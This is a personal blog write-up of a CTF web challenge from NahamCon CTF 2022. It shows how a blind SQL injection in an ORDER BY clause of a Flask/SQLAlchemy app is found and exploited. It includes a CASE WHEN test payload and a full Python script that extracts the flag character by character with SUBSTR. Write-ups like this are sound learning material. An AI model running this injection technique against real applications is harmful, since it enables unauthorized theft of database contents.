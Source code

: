 
---
title: NahamCon CTF 2022 - Blind SQLi
# Summary for listings and search engines
summary: Medium Web Challenge Writeup 
# Link this post with a project
# projects: []

# Date published
date: "2022-05-01:17:00"

# Date updated
#lastmod: "2020-12-13T00:00:00Z"

# Is this an unpublished draft?
#draft: false

# Show this page in the Featured widget?
featured: false

# Featured image
# Place an image named `featured.jpg/png` in this page's folder and customize its options here.
 
 
 # placement: 2
  #preview_only: false

authors:
- Wassila Chtioui

tags:
- Blind SQLi
- Web Exploitation
- CTF Write-up
- Flaskmetal Alchemist

categories:
- Web
- CTF
- SQLi
---


### Introduction 
After spending the last month learning about each vulnerability and practising through labs. I had the oppportunity to evalute what I've leant so far through **_NahamCon CTF_** along with that my team **_Arr3stY0u_**.

I mostly enjoyed a Blind SQL Injection task so I thought why not sharing a writeup. 

### Flaskmetal Alchemist - 168 points  - 260 Solves (medium)

![alt text](https://i.imgur.com/PfXdjUZ.png)

The website contained a search bar having a Sort By drop-down list with 3 options: Name, Symbol and Atomic Number. **SQL Injection.. is it you ?**

I took a look at the source code provided. 

![alt text](https://i.imgur.com/f2s7lit.png)

Here, the most interesting line is :

``` 
metals = Metal.query.filter(
                Metal.name.like("%{}%".format(search))
            ).order_by(text(order))
``` 

After some google research, we can understand through the previous line of code that the injection point is the ORDER_BY CLAUSE since it takes the result of the text() function - _which allows us to excecute SQL statements_ - as argument.  
Using burpsuite, it is possible to intercept the request and change the post parameters. 

First, let's check our methodology.
Knowing that we control the ORDER_BY CLAUSE, we can trigger any SQL Statement we want to be executed. 
To verify this, I used the following payload:

``` 
search=Li&order=(SELECT (CASE WHEN (1=1) THEN atomic_number else name END)); 
```

##### PS: I tried using the IF statement but it didn't work since it is only executed in the beggining of a query. Fortunately, "CASE" has the same function.

* **When true: the table is ordered by Atomic Number ==>** 

![alt text](https://i.imgur.com/sRAz5ba.png)

* **When false: the table is ordered by Name ==>**

![alt text](https://i.imgur.com/rg79P2L.png)

At this level, we made sure that according to the order of the elements, we can figure out if the condition we set in the CASE Statement is True or False. 
This comes to say that, in order to exfiltrate the flag, we can compare each character based on the True/False method.
To do so, we used the SUBSTR() function to parse the string character by character. We were also given in the source code the table and the column name where we can find the flag. 

Therefore, in order to automate this, I wrote the following script:
```
import requests, time

s = requests.Session()
dictionary = ['a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z','_','{','}']
URL = "http://challenge.nahamcon.com:31148/"
final = ""
for i in range(1,30):
        for x in dictionary:
                exploit = "(SELECT (CASE WHEN (SUBSTR((SELECT flag FROM flag)," + str(i) + ",1) = '" + x + "')THEN atomic_number else name END));"
                #print exploit
                data = {'search' : 'Li' , 'order' : exploit }
                r = s.post(url = URL , data = data)
                #print(r.text)
                #print(r.text.index("Li"))
                if r.text.index("Li") == 2657 :
                        final = final + x
                        print "Leaking contents: " + final
                        break

```

And now we go eat something while our script is running ! 

![alt text](https://i.imgur.com/UvP81lP.png)

Aaand VOILAA ! 

### Conclusion
To sum up, this task sharpened my scripting skills; I also had the opportunity to dive in more into SQL Injection types. I congratulate the author and I look forward to the next edition.

